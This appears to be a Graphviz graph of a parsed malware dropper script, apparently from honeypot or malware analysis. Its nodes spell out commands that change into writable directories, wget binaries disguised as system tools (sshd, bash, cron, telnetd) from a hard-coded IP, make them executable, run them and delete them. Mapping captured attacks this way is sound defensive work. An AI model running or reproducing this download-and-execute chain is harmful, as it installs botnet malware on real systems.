 digraph {
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 10 [label="||,"];
10 [label="wget http://162.216.112.158/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 28 [label="||,"];
28 [label="wget http://162.216.112.158/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 46 [label="||,"];
46 [label="wget http://162.216.112.158/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 64 [label="||,"];
64 [label="wget http://162.216.112.158/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 82 [label="||,"];
82 [label="wget http://162.216.112.158/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 100 [label="||,"];
100 [label="wget http://162.216.112.158/pstree "];
100 -> 102 [label=";,"];
102 [label="chmod +x pstree "];
102 -> 104 [label=";,"];
104 [label="./pstree "];
104 -> 106 [label=";,"];
106 [label="rm -rf pstree "];
106 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 118 [label="||,"];
118 [label="wget http://162.216.112.158/dropbear "];
118 -> 120 [label=";,"];
120 [label="chmod +x dropbear "];
120 -> 122 [label=";,"];
122 [label="./dropbear "];
122 -> 124 [label=";,"];
124 [label="rm -rf dropbear "];
124 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 136 [label="||,"];
136 [label="wget http://162.216.112.158/wget "];
136 -> 138 [label=";,"];
138 [label="chmod +x wget "];
138 -> 140 [label=";,"];
140 [label="./wget "];
140 -> 142 [label=";,"];
142 [label="rm -rf wget "];
142 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 154 [label="||,"];
154 [label="wget http://162.216.112.158/cron "];
154 -> 156 [label=";,"];
156 [label="chmod +x cron "];
156 -> 158 [label=";,"];
158 [label="./cron "];
158 -> 160 [label=";,"];
160 [label="rm -rf cron "];
160 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 172 [label="||,"];
172 [label="wget http://162.216.112.158/ftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x ftp "];
174 -> 176 [label=";,"];
176 [label="./ftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf ftp "];
178 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 190 [label="||,"];
190 [label="wget http://162.216.112.158/pftp "];
190 -> 192 [label=";,"];
192 [label="chmod +x pftp "];
192 -> 194 [label=";,"];
194 [label="./pftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf pftp "];
196 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 208 [label="||,"];
208 [label="wget http://162.216.112.158/sh "];
208 -> 210 [label=";,"];
210 [label="chmod +x sh "];
210 -> 212 [label=";,"];
212 [label="./sh "];
212 -> 214 [label=";,"];
214 [label="rm -rf sh "];
214 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 226 [label="||,"];
226 [label="wget http://162.216.112.158/  "];
226 -> 228 [label=";,"];
228 [label="chmod +x   "];
228 -> 230 [label=";,"];
230 [label="./  "];
230 -> 232 [label=";,"];
232 [label="rm -rf   "];
232 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 244 [label="||,"];
244 [label="wget http://162.216.112.158/apache2 "];
244 -> 246 [label=";,"];
246 [label="chmod +x apache2 "];
246 -> 248 [label=";,"];
248 [label="./apache2 "];
248 -> 250 [label=";,"];
250 [label="rm -rf apache2 "];
250 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 254 [label=";,"];
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 262 [label="||,"];
262 [label="wget http://162.216.112.158/telnetd "];
262 -> 264 [label=";,"];
264 [label="chmod +x telnetd "];
264 -> 266 [label=";,"];
266 [label="./telnetd "];
266 -> 267 [label=";,"];
}
